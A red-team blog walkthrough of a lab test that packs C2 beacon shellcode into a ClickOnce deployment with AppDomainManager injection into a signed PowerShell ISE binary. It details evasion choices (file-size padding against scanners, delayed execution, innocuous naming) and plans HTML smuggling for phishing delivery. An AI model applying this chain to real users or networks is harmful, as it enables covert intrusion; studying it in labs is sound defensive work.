

# Two Clicks to a Beacon: Abusing ClickOnce Deployments for Initial Access

Hello everyone, This is Akchhat here and we are back with trying another initial access technique that I wanted to mess around with for a while which is the `ClickOnce` **deployments**. If you have been in the red team space for some time you have probably heard of this but maybe never sat down and actually built one end to end. That is exactly what I did against my home lab, and I want to talk about how the whole thing works, what surprised me, and where I think this can go.

## Lab Structure :&#x20;

* Just a quick overview so things make sense as you read. I am running a small AD lab called `MARVEL.local`. The victim machine is `THEPUNISHER` at `192.168.233.129`, running Windows 10 x64. My attack machine is Kali at `192.168.233.128`. C2 is **Adaptix Framework**, which is a solid C2 I have been using lately as it has clean UI, decent beacon customization.
* This lab instance actually contains two Windows 10 x64 machines joined with a Server 2019 Instance in a domain called `Marvel.local` .

## Tools :&#x20;

* The star of this whole thing is `ClickForClickOnce` by [whokilleddb](https://github.com/whokilleddb/). It is a web based payload builder that wraps all the ClickOnce generation logic and makes it genuinely easy to produce a deployment package without dealing with msbuild configs manually. You run it via Docker, hit `http://127.0.0.1` in your browser and you get a clean UI.
* ClickOnce itself is a legitimate Microsoft application deployment technology. The idea is that you host an `.application` file somewhere, a user clicks it, Windows fetches the dependencies and installs/runs the app. It was built for enterprise software distribution which makes it useful for us as the download and execution flow is largely trusted by the OS.
* We also used the Adaptix C2 as the command and control channel for testing this out as it is the only C2 in my Scenario that closely resembles the Enterprise C2 which is the "Cobalt Strike". (Note: I might be wrong on this but this is my view.)&#x20;

## The Attack Flow :&#x20;

* First step was getting a listener up in Adaptix. I created one called `ops` , external HTTP on `192.168.233.128:443`, BeaconHTTP config. URIs set to `/updates/check.php` just to look vaguely legitimate in traffic. Custom User-Agent and a heartbeat header `X-Beacon-Id`. Nothing fancy but enough for a lab.

<figure><figcaption></figcaption></figure>

* Once the listener was running, I generated the agent. Format set to **Shellcode**  and x64 with 4 second sleep. This dumps a raw `.bin` file which i named it as  `ops.bin`  which is the beacon shellcode. That is the thing ClickForClickOnce is going to pack and execute.

<figure><figcaption></figcaption></figure>

*   Then on our terminal we started up the `ClickForClickOnce` in a docker container

    ```
    ┌──(kali㉿kali)-[~/Downloads/ClickForClickOnce]
    └─$ sudo docker compose up --build -d
    [+] Building 337.7s (29/29) FINISHED                                                                                                                                                                              
     => [internal] load local bake definitions                                                                                                                                                                   0.0s
     => => reading from stdin 545B                                                                                                                                                                               0.0s
     => [internal] load build definition from Dockerfile                                                                                                                                                         0.0s 
     => => transferring dockerfile: 1.57kB                                                                                                                                                                       0.0s
     => [internal] load metadata for ghcr.io/astral-sh/uv:latest                                                                                                                                                 0.7s
     => [internal] load metadata for docker.io/library/python:3.12-slim-bookworm                                                                                                                                 0.9s
     => [internal] load .dockerignore                                                                                                                                                                            0.0s
     => => transferring context: 2B                                                                                                                                                                              0.0s 
     => FROM ghcr.io/astral-sh/uv:latest@sha256:cdc6093146eb3ff6a40107b38f008b789e050e77ad87865e381d9917da55a168                                                                                                 0.0s 
     => [internal] load build context                                                                                                                                                                            0.0s 
     => => transferring context: 1.18kB                                                                                                                                                                          0.0s 
     => [base  1/20] FROM docker.io/library/python:3.12-slim-bookworm@sha256:34386ef0cb081344d7ec1c103ba398e6e9f64e9ab3a1509accc92a4e24a07258                                                                    0.0s 
     => CACHED [base  2/20] COPY --from=ghcr.io/astral-sh/uv:latest /uv /uvx /bin/                                                                                                                               0.0s 
     => CACHED [base  3/20] WORKDIR /app                                                                                                                                                                         0.0s 
     => CACHED [base  4/20] RUN apt-get update -y                                                                                                                                                                0.0s 
     => CACHED [base  5/20] RUN apt-get install -y curl make gdb lldb wget ca-certificates gnupg debian-keyring debian-archive-keyring apt-transport-https nuget iputils-ping                                    0.0s 
     => CACHED [base  6/20] RUN curl -1sLf 'https://dl.cloudsmith.io/public/caddy/stable/gpg.key' | gpg --dearmor -o /usr/share/keyrings/caddy-stable-archive-keyring.gpg                                        0.0s 
     => CACHED [base  7/20] RUN curl -1sLf 'https://dl.cloudsmith.io/public/caddy/stable/debian.deb.txt' | tee /etc/apt/sources.list.d/caddy-stable.list                                                         0.0s 
     => CACHED [base  8/20] RUN apt-get install caddy -y                                                                                                                                                         0.0s 
     => [base  9/20] RUN rm -f /etc/apt/sources.list.d/caddy-stable.list                                                                                                                                         0.4s 
     => [base 10/20] RUN gpg --homedir /tmp --no-default-keyring --keyring /usr/share/keyrings/mono-official-archive-keyring.gpg --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29A  1.3s
     => [base 11/20] RUN echo "deb [signed-by=/usr/share/keyrings/mono-official-archive-keyring.gpg] https://download.mono-project.com/repo/ubuntu stable-focal main" | tee /etc/apt/sources.list.d/mono-offici  0.5s
     => [base 12/20] RUN apt-get update -y                                                                                                                                                                       3.5s 
     => [base 13/20] RUN apt-get install -y mono-devel mono-complete msbuild msbuild-sdkresolver msbuild-libhostfxr                                                                                            304.3s 
     => [base 14/20] RUN nuget update -self                                                                                                                                                                      5.5s 
     => [base 15/20] RUN nuget sources add -Name nuget.org -Source https://api.nuget.org/v3/index.json                                                                                                           1.5s 
     => [base 16/20] COPY Caddyfile /app/Caddyfile                                                                                                                                                               0.1s 
     => [base 17/20] WORKDIR /api                                                                                                                                                                                0.0s 
     => [base 18/20] COPY templates /templates/                                                                                                                                                                  0.1s 
     => [base 19/20] COPY start.sh /api/start.sh                                                                                                                                                                 0.0s 
     => [base 20/20] COPY ./api/ /api                                                                                                                                                                            0.0s
     => exporting to image                                                                                                                                                                                      19.3s 
     => => exporting layers                                                                                                                                                                                     19.3s
     => => writing image sha256:c5f3b64383eb2351b8e2851afdb5ad621d78a1ab0ff0eb18eeab2ecc1de2e749                                                                                                                 0.0s
     => => naming to docker.io/library/clickforclickonce-caddy                                                                                                                                                   0.0s 
     => resolving provenance for metadata file                                                                                                                                                                   0.0s 
    [+] Running 3/3
     ✔ clickforclickonce-caddy            Built                                                                                                                                                                  0.0s 
     ✔ Network clickforclickonce_default  Created                                                                                                                                                                0.2s 
     ✔ Container caddy-main               Started 
    ```
* Open up the ClickForClickOnce UI and it asks you a few things:

<figure><figcaption></figcaption></figure>

* **ClickOnce Name** : this is what the user sees in the security prompt. I went with `DirectHandler`. Boring enough to not raise eyebrows.
* **AppDomainManager Injection :** this is the interesting bit. ClickForClickOnce uses AppDomainManager injection to actually execute your payload. You pick which legitimate Windows binary the shellcode will run inside. Options include `tzsync`, `Powershell ISE`, `ServiceHub.Host.netfx`, and `PerfWatson2`. I picked **PowerShell ISE** as it is a signed Microsoft binary, it loads `.NET`, and it is not something most endpoint tools flag as suspicious to be running. The payload actually also ends up executing inside `powershell_ise.exe`.

<figure><figcaption></figcaption></figure>

* **Inflate Size:** some EDRs skip scanning files above a certain size threshold. The inflate slider lets you artificially pad the payload. I set it to 300 MB for this run just to test the behavior. In a real engagement you would tune this based on what you know about the target environment.
* **Action :**  lastly the action is set to `Run Shellcode`, uploaded `ops.bin`. The tool notes that shellcode execution is delayed by 8 minutes. This is intentional it gives the ClickOnce deployment time to fully finish and the process to settle before the shellcode runs. That delay is worth keeping in mind operationally.

<figure><figcaption></figcaption></figure>

* Then we Hit **Submit and** watch the build log scroll. It is generating an NTDLL hash, LdrCallEnclave hash, compiling with msbuild via mono, pulling `Newtonsoft.Json`, encrypting the shellcode with XOR, and packing everything into a zip.&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

*   Now we downlad the `DirectHandler.zip` File and the file contents are :&#x20;

    ```
    DirectHandler.application
    DirectHandler.dll.deploy
    DirectHandler.manifest
    Newtonsoft.Json.dll.deploy
    config.json.deploy
    powershell_ise.exe.config.deploy
    powershell_ise.exe.deploy
    ```
*   Now In the real world you would be hosting this somewhere like a domain you own, an Azure blob, SharePoint, whatever fits your phishing pretext. For the lab I just spun up Python’s built-in HTTP server:

    ```
    ┌──(kali㉿kali)-[~/Downloads/DirectHandler]
    └─$ ls
    config.json.deploy  DirectHandler.application  DirectHandler.dll.deploy  DirectHandler.manifest  Newtonsoft.Json.dll.deploy  powershell_ise.exe.config.deploy  powershell_ise.exe.deploy
                                                                                                                                                                                                                     
    ┌──(kali㉿kali)-[~/Downloads/DirectHandler]
    └─$ python3 -m http.server 8081                                                
    Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
    ```
* Then, we Navigated to `http://192.168.233.128:8081` from the victim machine, the directory listing shows up and you click `DirectHandler.application`.

<figure><figcaption></figcaption></figure>

* Now Two prompts follow which is one from the browser asking if you want to open the file and we as the victim click `open`:

<figure><figcaption></figcaption></figure>

* And one Windows security warning saying the publisher cannot be verified:

<figure><figcaption></figcaption></figure>

*   Two clicks total. That is the “ClickForClickOnce” name minimal user interaction. No PowerShell command to run, no macro to enable, just two generic looking OS dialogs. The HTTP server logs showed the victim machine pulling down all the deploy files sequentially after accepting both prompts, which is the ClickOnce runtime fetching dependencies. Completely normal looking traffic.

    ```
    ┌──(kali㉿kali)-[~/Downloads/DirectHandler]
    └─$ python3 -m http.server 8081                                                
    Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
    192.168.233.129 - - [10/Oct/2026 16:14:47] code 400, message Bad request version ('JJ\\x13\\x01\\x13\\x02\\x13\\x03À+À/À,À0̨̩À\\x13À\\x14\\x00\\x9c\\x00\\x9d\\x00/\\x005\\x01\\x00\\x06SÊÊ\\x00\\x00\\x00\\x17\\x00\\x00\\x00')
    192.168.233.129 - - [10/Oct/2026 16:14:47] "\x16\x03\x01\x06À\x01\x00\x06¼\x03\x03øOÃ4¾lCR\x80\x87Üû\x9abÌ\x1aT\x0dj\x18h\x7f\x01þË\x15\x0cbBMÐÙ \x9bg9ÉLÓÉÏ7c!âαgµÐTo| \x8fêpU`4à¡W\x84\x13\x00 JJ\x13\x01\x13\x02\x13\x03À+À/À,À0̨̩À\x13À\x14\x00\x9c\x00\x9d\x00/\x005\x01\x00\x06SÊÊ\x00\x00\x00\x17\x00\x00\x00" 400 -
    192.168.233.129 - - [10/Oct/2026 16:14:47] code 400, message Bad request version ('\\x00\\x02\\x01\\x00\\x00\\x1b\\x00\\x03\\x02\\x00\\x02\\x00#\\x00\\x00\\x00')
    192.168.233.129 - - [10/Oct/2026 16:14:47] "\x16\x03\x01\x07\x00\x01\x00\x06ü\x03\x03*\x9b\x10\x0eäz|\x19=ËÇTIÑ\x08ÜÏb\x19k#\x9eK|ÒÜ\x02²\x8f\x0eÙÖ \x15\x99¢ìØ©\x8bÙ\x88<å\x1fvêµ8;\x15WÅÃ=)¯×fjZçv\x0dÕ\x00 ÚÚ\x13\x01\x13\x02\x13\x03À+À/À,À0̨̩À\x13À\x14\x00\x9c\x00\x9d\x00/\x005\x01\x00\x06\x93ºº\x00\x00\x00\x10\x00\x0e\x00\x0c\x02h2\x08http/1.1\x00\x0b\x00\x02\x01\x00\x00\x1b\x00\x03\x02\x00\x02\x00#\x00\x00\x00" 400 -
    192.168.233.129 - - [10/Oct/2026 16:14:47] code 400, message Bad request version ('\\x02h2\\x08http/1.1\\x00\\x17\\x00\\x00\\x00+\\x00\\x07\\x06JJ\\x03\\x04\\x03\\x03\\x003\\x04ï\\x04í\\x9a\\x9a\\x00\\x01\\x00\\x11ì\\x04À\\x91w¦o&]úú¬¯j')
    192.168.233.129 - - [10/Oct/2026 16:14:47] "\x16\x03\x01\x06 \x01\x00\x06\x9c\x03\x03þ}$\x00λ\x1e<ç´¸û!G¸¼®û¬lÜXöîþ:\x0fXv÷\x1bº ±ÃÜä\x91\x1f'Ñz\x94aV\x0b\x99rwâìmdÖÕ\x89\x8aðAeè\x09-\x96z\x00 **\x13\x01\x13\x02\x13\x03À+À/À,À0̨̩À\x13À\x14\x00\x9c\x00\x9d\x00/\x005\x01\x00\x063jj\x00\x00\x00\x1b\x00\x03\x02\x00\x02\x00\x12\x00\x00\x00\x10\x00\x0e\x00\x0c\x02h2\x08http/1.1\x00\x17\x00\x00\x00+\x00\x07\x06JJ\x03\x04\x03\x03\x003\x04ï\x04í\x9a\x9a\x00\x01\x00\x11ì\x04À\x91w¦o&]úú¬¯j" 400 -
    192.168.233.129 - - [10/Oct/2026 16:14:47] code 400, message Bad request syntax ('\\x16\\x03\\x01\\x06à\\x01\\x00\\x06Ü\\x03\\x03þ¦?r̸էLå\\x86üx')
    192.168.233.129 - - [10/Oct/2026 16:14:47] "\x16\x03\x01\x06à\x01\x00\x06Ü\x03\x03þ¦?r̸էLå\x86üx" 400 -
    192.168.233.129 - - [10/Oct/2026 16:14:47] code 400, message Bad request version ('â½ñ\\x11¡\\x83J\\x89nVÈ\\x10Ã\\x0eq+L»ù\\x91¦\\x97\\x90¹Õ_')
    192.168.233.129 - - [10/Oct/2026 16:14:47] "\x16\x03\x01\x06À\x01\x00\x06¼\x03\x03B%8\x0e\x11"\x8dHú·º-Ü\x105r74qÙ\\S\x94F!ÿï&hÈÌÕ \x95ò\x0d\x0c\x13=\x0bÃ,³\x00ª>L\x9e5Üɸj½\x90ßåÉN\x07+Hï\x1fn\x00 ºº\x13\x01\x13\x02\x13\x03À+À/À,À0̨̩À\x13À\x14\x00\x9c\x00\x9d\x00/\x005\x01\x00\x06Sêê\x00\x00\x00\x0b\x00\x02\x01\x00DÍ\x00\x05\x00\x03\x02h2þ\x0d\x00Ú\x00\x00\x01\x00\x01¤\x00 ü\x84¾\x05¦\x9aõ8p\x14Û1&'\x9cp\x83÷¼"ÔgY\x02¯\x8e\x944\x911U|\x00°t\x1cû\x17\x1d6\x19ªàÑ~;\x19@7!\x98\\\x12\x14`c,ÿ-\x1a)sý\x98z\\à8Aí\x0coö*ÀÆâ\x85bÃ\x11\x9d³9ÆÏ\x8ax\x8c¯\x8b(H\x98¥\x13ª\x89E$d`ÿß\x84³§V\x01BÒ\x1c\x98´V\x86À\x8d\x8afùß»\x84Dj\x0eIñ\x91W¦Ô:\x1bZRv\x12Vr\x8fs\x1f×ØûåSO»3\x035\x80\x81K㦦Ro¢0g\x87\x81\x95\x1aj\x0b|!\x1d®«÷\x88ìO4z*\x0bqÍ\x87\x92c/+\x04©\x17CA\x8e£\x96ûr¤à)¤ø\x0b\x94:¹\x003\x04ï\x04í::\x00\x01\x00\x11ì\x04ÀÁÃ)$¬0oæ\x9dµ÷Æá\x9c+ôYG\x8f\x8ayL×&/(wj·hmpKëEu|Ë\x18frD\x18\x08¥gAµ§Øn©²PÑV»\x11Ylò÷}ëJª>\\¹Ý@Y)ä·¹c\x8a¯,\x85_áQ¿¤\x9d \x03¨iULú\x10­m(>v\x10\x17æÃi\x1dItrd\x04ÞÄ%\x85\x09Ä\x10\x12´\x00ôyÀÜo\x19HÌ/ç\x04UÐ\x83º \x86;¤¼_âK"\x11<]á\x9a7|[â\x1bÇW\x98\x10/\x03\x9aÇA\x9c\x9aF¼Ù§}E{J\x1c³\x0b¾\x04ËdqvoÆy\x00Sc û\x94\x97öooBÄ\x8b\x08>ò|¢e\x88¤\x8fãǢ䡧CZ\x06j\x10Æù:)\x8a#X&ƺW¥uIÇbWÇ\x86Iv\x92!\x19\x9awÂÕ\x835[\x1b83g\x89»±n\x9f\x81R\x99Ö\x9f\x05H§Jè\x91\x0bÉÀ¤Üeë\x979\x11Ò©ç\x08>1Á\x1cL\x90b\x9ca\x94ÍsÌCá\x9cÐC\x85\x16¡}05©å\x92\x7få\x05|Ä#| \x92X.A¸Á$\x9a\x9fÒ\x04î\x15«\x90ÇVtË\x1fA\x0b\x86&\x0c¡óQ+é4\x8d%\x05\x02\x05£\x9dÒ÷Ëzw«ÝR½^è ÛÚ\x92²Ô¸Þ&9Pæ\x93Àè\x1e\x12Òo\x065h\x92\x9aË\\(\x1c\x16\x9aw£¬v\x15\x08Gc\x8c*\x7f¸oÒ*eû$\x89uE&Ðe\x986ÂpÁb\x9dü5\x88Ò0µ ô\x0b\x8c\x99\x93±2\x1eÿë_ß\x14¶îÇjÆzI§\x93\x1fµ6\x12²K\x84$ã%3aÄ\x07¡q,\x1a5Ô\x1c~ùÁÂY¤SÉJ\x00Z<\x12\x1aË¡¹Ñ\x03\x0déNÛ°y â½ñ\x11¡\x83J\x89nVÈ\x10Ã\x0eq+L»ù\x91¦\x97\x90¹Õ_" 400 -
    192.168.233.129 - - [10/Oct/2026 16:14:47] code 400, message Bad request version ('\\x00\\x12\\x00\\x10\\x04\\x03\\x08\\x04\\x04\\x01\\x05\\x03\\x08\\x05\\x05\\x01\\x08\\x06\\x06\\x01\\x00\\x17\\x00\\x00DÍ\\x00\\x05\\x00\\x03\\x02h2\\x00\\x05\\x00\\x05\\x01\\x00\\x00\\x00\\x00\\x00+\\x00\\x07\\x06ÊÊ\\x03\\x04\\x03\\x03\\x00\\x1b\\x00\\x03\\x02\\x00\\x02ÿ\\x01\\x00\\x01\\x00\\x00\\x12\\x00\\x00\\x00')
    192.168.233.129 - - [10/Oct/2026 16:14:47] "\x16\x03\x01\x07\x00\x01\x00\x06ü\x03\x03\x15gÔ¦\x16@ì;ÔîmùWkwHÑ h\x08\x8c\x93Õ\x8aýãc\x9dyëe§ ÚP)\x05{RÚ\x1a%(Ú\x04\x00F\x9c\x14JZ ¾?¦\x04T:`a\x8e\\j]\x87\x00 ÚÚ\x13\x01\x13\x02\x13\x03À+À/À,À0̨̩À\x13À\x14\x00\x9c\x00\x9d\x00/\x005\x01\x00\x06\x93jj\x00\x00\x00\x0d\x00\x12\x00\x10\x04\x03\x08\x04\x04\x01\x05\x03\x08\x05\x05\x01\x08\x06\x06\x01\x00\x17\x00\x00DÍ\x00\x05\x00\x03\x02h2\x00\x05\x00\x05\x01\x00\x00\x00\x00\x00+\x00\x07\x06ÊÊ\x03\x04\x03\x03\x00\x1b\x00\x03\x02\x00\x02ÿ\x01\x00\x01\x00\x00\x12\x00\x00\x00" 400 -
    192.168.233.129 - - [10/Oct/2026 16:14:47] code 400, message Bad request syntax ('\\x16\\x03\\x01\\x06À\\x01\\x00\\x06¼\\x03\\x03\\x16~\\x88kk\\x16ÎOÕ\\x90\\x87ôA\\x9akÝKñ¨')
    192.168.233.129 - - [10/Oct/2026 16:14:47] "\x16\x03\x01\x06À\x01\x00\x06¼\x03\x03\x16~\x88kk\x16ÎOÕ\x90\x87ôA\x9akÝKñ¨" 400 -
    192.168.233.129 - - [10/Oct/2026 16:14:47] code 400, message Bad request version ('¯Fä¥à\\x9eöédÛ÷9ÇÉÞA\\xad\\x92\\x01·ZS\\x16\\x00')
    192.168.233.129 - - [10/Oct/2026 16:14:47] "\x16\x03\x01\x06 \x01\x00\x06\x9c\x03\x03%#mûÐ>ßZ\x99ç\x09=K×¼Ä(\x0di\x9d\x1e\x8d9ìt\x0bþ5\x93\x00Î\x19 Å9\x0eá\x16Ã\x10c\x0c¯Fä¥à\x9eöédÛ÷9ÇÉÞA­\x92\x01·ZS\x16\x00 " 400 -
    192.168.233.129 - - [10/Oct/2026 16:14:54] "GET / HTTP/1.1" 200 -
    192.168.233.129 - - [10/Oct/2026 16:14:54] code 404, message File not found
    192.168.233.129 - - [10/Oct/2026 16:14:54] "GET /favicon.ico HTTP/1.1" 404 -
    192.168.233.129 - - [10/Oct/2026 16:15:37] "GET /DirectHandler.application HTTP/1.1" 200 -
    192.168.233.129 - - [10/Oct/2026 16:16:29] "GET /DirectHandler.application HTTP/1.1" 200 -
    192.168.233.129 - - [10/Oct/2026 16:16:29] "GET /DirectHandler.manifest HTTP/1.1" 200 -
    192.168.233.129 - - [10/Oct/2026 16:16:55] "GET /Newtonsoft.Json.dll.deploy HTTP/1.1" 200 -
    192.168.233.129 - - [10/Oct/2026 16:16:55] "GET /config.json.deploy HTTP/1.1" 200 -
    192.168.233.129 - - [10/Oct/2026 16:16:56] "GET /powershell_ise.exe.config.deploy HTTP/1.1" 200 -
    192.168.233.129 - - [10/Oct/2026 16:16:56] "GET /powershell_ise.exe.deploy HTTP/1.1" 200 -
    192.168.233.129 - - [10/Oct/2026 16:16:57] "GET /DirectHandler.dll.deploy HTTP/1.1" 200 -
    ```
* Then we wait for 8 minutes and right after that the beacon checked in. Session showed up in Adaptix for `THEPUNISHER` machine and user `fcastle`, process `powershell_ise.exe (x64)`. Exactly where we expected it.

<figure><figcaption></figcaption></figure>

* Now the 8 minute delay is a built-in evasion behavior but it is worth flagging in an engagement that window matters. If your target has a SOC watching alerts in near real time you want to make sure your OPSEC is solid during that window because the files have already landed on disk.
* One more thing that is, yes, Windows Defender was running on `THEPUNISHER` machine. The combination of the AppDomainManager injection into a signed binary plus the inflated payload size meant it did not catch this. I want to be careful about overclaiming here as AV bypass is always environment and configuration dependent. But out of the box, with default Defender and no custom detection rules, this landed clean.

## Wrapping Up :&#x20;

* ClickOnce as an initial access vector is genuinely underutilized in most red team exercises I have seen. The user interaction is minimal, the delivery blends into normal enterprise software distribution behavior, and the AppDomainManager injection technique gives you a solid execution primitive inside a signed process. ClickForClickOnce makes it approachable without needing to wrestle with msbuild manifests by hand.
* If you are building out your initial access playbook and have not looked at this yet, it is worth a few hours in your lab. references below.



## What Is Next in My Head :&#x20;

* Here is the thing I keep thinking about. Right now the delivery step is “get the victim to navigate to a URL and click the `.application` file.” That works in a lab but in a real phishing scenario browsers are getting more aggressive about blocking direct `.application` downloads, especially from unfamiliar domains.
* **HTML smuggling** could close that gap nicely. Instead of serving the raw ClickOnce deployment folder directly, you serve an HTML page that reconstructs and drops the `.application` file client-side using JavaScript Blob/URL tricks.
* The combo would look like:
  * Host an HTML smuggling page that on load reconstructs `DirectHandler.application` from a base64 blob embedded in the JS
  * User lands on the page, file “downloads” automatically, browser prompts open/save
  * From there the ClickOnce flow takes over and two clicks, beacon lands
* This bypasses email attachment scanning and network-level file inspection in one move. The ClickOnce side already handles the AV and the AppDomainManager injection. Stack them together and you have a fairly complete delivery-to-execution chain with minimal exposure at each stage.

I have not built this out yet but it is on my list. If it works the way I think it does I will document it properly when I get there.
